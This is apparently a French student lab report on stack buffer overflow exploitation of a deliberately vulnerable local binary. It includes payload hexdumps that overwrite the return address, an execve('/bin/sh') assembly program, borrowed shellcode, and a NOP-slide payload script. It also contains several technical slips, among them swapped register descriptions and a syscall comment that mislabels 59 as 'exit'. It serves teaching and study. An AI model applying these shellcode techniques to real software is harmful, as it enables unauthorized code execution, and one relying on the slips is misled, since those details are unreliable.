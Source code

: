 # CR - TP1 - OS430

### Exercice 2 : Dummy Exploitration

#### 1) Adresse de retour de la fonction "vuln"

Pour connaître cette adresse, on peut s'y prendre de plusieurs manières.
On peut mettre un breakpoint sur l'instruction `ret` et observer le contenu du
registre x1 `gdb> print $rax` qui contient l'adresse de retour.
Sinon on peut étudier la pile, l'adresse de retour devrait ce trouver juste 
avant le registre ebp (après la sauvegarde de la pile), si on met un breakpoint
sur vuln on peut le voir au moment du break `gdb> x/1xw $ebp+4`.


#### 2) Randomize_va_space

Mettre ce paramètre à la valeur désactive une protection du 
noyaux Linux, l'ASLR.
L'ASLR est une technique qui, une fois activée, va randomiser la position en mémoire de plusieurs données clé d'un programme, tel que la *stack*, le *heap* ou encore les librairies. Cela permet entre autre d'éviter les attaques de type *"buffer overflow"* dans les exécutables. Cela nous poserait quelques problèmes dans le cadre du TP.

#### 3) 243 'A'

` Python:
python -c "print(200* 'A', end='')" `


#### 4) Redirection du flot d’exécution

La faille dans cette fonction est flagrante, on utilise la fonction strcpy pour copier une chaîne de caractères dans un buffer de taille limitée.
Pour rediriger le flot d’exécution on va donc passer en argument un chaîne de
taille supérieure à 64 pour venir écraser l'adresse de retour en bas de la pile.
On sait donc que la chaîne est stockée à l'adresse $ebp-68 et que le mot à écraser est à $ebp+4. Avec un simple calcul on déduit qu'il faudra une payload de taille 76.
On aura 72 octets de padding et 4 pour l'adresse. On fera attention au boutisme, car les machines Intel sont en little endian.
```python
$> hexdump -v payload:
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4141 4141 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 9210 0804
```
Maintenant, lorsqu'on execute le programme avec notre payload en argument on peut observer l'appel au printf de la fonction ignorée.
`./vuln $(cat payload) `

### Exercice 3 : Dummy Shellcoding

#### 1) Execution d'un shell

Nous avons écrit un petit programme qui exécute `/bin/sh`
```c
#include <stdio.h>
#include <unistd.h>

int main(){
	execl("/bin/sh","/bin/sh",NULL);
	return 0;
}
```

#### 2) Instruction syscall

En assembleur x86-64 l'instruction permettant de réaliser un appel système est `syscall`.
En assembleur c'est un peu moins évident. Il faut faire appel à une interruption, plus particulièrement à `l'interruption 0x80`.

#### 3) Registres

x64:
- `rax` contient le numéro du syscall à effectuer
- `rsi` contient un pointeur vers le nom de la commande
- `rdi` conteint la liste des arguments (terminé par NULL)
- `rdx` contient des options (ici NULL)

x86:

- `eax` à 11 pour l'appel execve
- `ebx` nom de la commande
- `ecx` liste des arguments
- `esi` options


#### 4) Execution d'un shell

Programme en assembleur x86-64:
```asm
; ----------------------------------------------------------------------------------------
; Exec /bin/sh using system calls. Runs on 64-bit Linux only.
; To assemble and run:
;
;     nasm -felf64 hello.asm && ld hello.o && ./a.out
; ----------------------------------------------------------------------------------------


        global    _start

        section   .text
_start: ; Syscall exec
; On prépare:	exec("/bin/sh",["/bin/sh",NULL],NULL)
	mov rax, 59                     ; system call for exit
            mov rdi, command	        ; nom de la commande
    	    mov rsi, argv		; liste des arguments
    	    mov rdx, 0 			; NULL
	syscall         ;appel systeme

    mov rax, 60                 ; system call for exit
    xor rdi, rdi                ; exit code 0
    syscall                     ; invoke operating system to exit

          section   .data
	command: db "/bin/sh",0x0
	last_arg: dq 0x0
	argv: dq command, 0x0
```

### Exercice 4 : Basic Exploitation

#### 1) Overflow et padding

L'overflow est toujours le même que dans l'exercice 2, un appel à strcpy dans un buffer de taille fixe. Le padding est toujours de 72 octets.

#### 2) Shellcode

Un shellcode est une suite de chaîne de caractères représentant du code binaire exécutable, utilisé pour lancer des programmes, tel des shell (bin/sh). On peut utiliser les shellcodes pour, après avoir exploiter des vulnérabilités dans un programme et ainsi rediriger correctement le pointeur d'instruction, exécuter le code que l'on désire.

Certains shellcode doivent être "null byte free", c'est à dire ne pas contenir d'octets à 0, car les points d'entrée sont des fonctions manipulant des chaînes. Comme c'est le cas ici notre point d'entrée étant strcpy.
La fin d'une chaîne de caractères est désigné par l'octet nul, donc on ne peut pas mettre d'octet nul dans notre payload sinon elle ne sera pas copié en entier.

#### 3) Options du compilateur

 ``-fno-stack-protector``
Cette option permet de désactiver la protection de la pile car elle est activée par défaut sur certainnes distribution linux.
La protection de pile aloue un peu plus de mémoire au programmes et vérifie que cette mémoire n'a pas été altérée.
[source](https://stackoverflow.com/a/10713047)

``-z execstack``
Cette option du compilateur permet d'autoriser l'execution de la stack. Cette pratique ayant été utilisé autrefois, elle est désormais déprécié car elle présente des risques en termes de sécurité.
[source](linux.die.net/man/8/execstack)


#### 4) Exploitation du binaire

Nous avons trouvé un shellcode sur [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-219.php) (nous n'avons conservé que la troisième partie, le execve() ).

Premier payload naif:
Consiste du shellcode suivi de padding avec des A, puis de la valeur de retour à écrser.
Ce code fonctionne lorsqu'on l'injecte avec gdb, mais pas quand on l'exécute sur un simple shell.

```hex
0000000 c031 6850 2f2f 6873 2f68 6962 896e 50e3
0000010 8953 99e1 0bb0 80cd 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 d274 ffff
```

Nous avons donc tenté de l'améliorer en rajoutant un NOP-slide.
De cette manière si l'adresse de retour ne pointe pas exactement au bon endroit le code ne crash pas.

```python-repl=
pad = "\x90" * (72-4-24)  # padding de 72 bytes, NOP-slide
RAX = "\x74\xD2\xFF\xFF" # On met la valeur &buf
shellcode = "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
EBP = "\x28\xd3\xff\xff" # sauvegarde de ebp
print  pad + shellcode + EBP + RAX
```

```hex
$> python2 payload.py | hexdump -v
0000000 9090 9090 9090 9090 9090 9090 9090 9090
0000010 9090 9090 9090 9090 9090 9090 9090 9090
0000020 9090 9090 9090 9090 9090 9090 c031 6850
0000030 2f2f 6873 2f68 6962 896e 50e3 8953 99e1
0000040 0bb0 80cd d328 ffff d274 ffff 000a
```

Malheureusement ça ne marche touours pas ;(



SONKO ROUGÉ

